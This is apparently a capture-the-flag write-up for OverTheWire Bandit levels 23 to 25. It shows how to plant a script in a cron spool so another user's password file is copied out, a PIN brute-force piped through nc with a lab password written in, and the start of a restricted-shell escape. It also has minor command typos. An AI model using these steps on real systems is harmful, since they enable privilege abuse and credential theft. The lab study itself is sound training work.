 ```bash
mkdir /tmp/har3  
chmod 777 /tmp/har3  
cd /tmp/har3
```
create a own bash file  `nano get.sh` ,`ctrl+o` to save , `ctrl+x` to exit
```bash
#!/bin/bash  
cat /etc/bandit_pass/bandit24 > /tmp/har3/passwd.txt 
```
after creating bash ,enable execute previlege by `chmod`(change_mode) cmd
```bash
chmod 777 get.sh  
cp get.sh /var/spool/bandit24/  
cd /var/spool/bandit24/  
cd /tmp/har3  
ls /tmp/har3/  
cat /tmp/har3/passwd.txt  
```

---
#### **Level24:** 
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  

```bash
mkdir /tmp/har4  
chmod 777 /tmp/har4  
cd /tmp/har4  
nano brute.sh 
```
 
```bash
#!/bin/bash  
  
for i in {9999..000};
do  
echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done  
```  

```bash
chmod +x brute.sh  
./brute.sh > rockyou.txt  
cat rockyou.txt | nc localhost 30002
```  
---
#### **Level25:**
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.  

```bash
ls  
file/usr/bin/showtext  
cat /usr/bin/showtext  
```
showtext content
```bash
#!/bin/sh  
  
export TERM=linux  
  
more ~/text.txt  
exit 0  
```  
  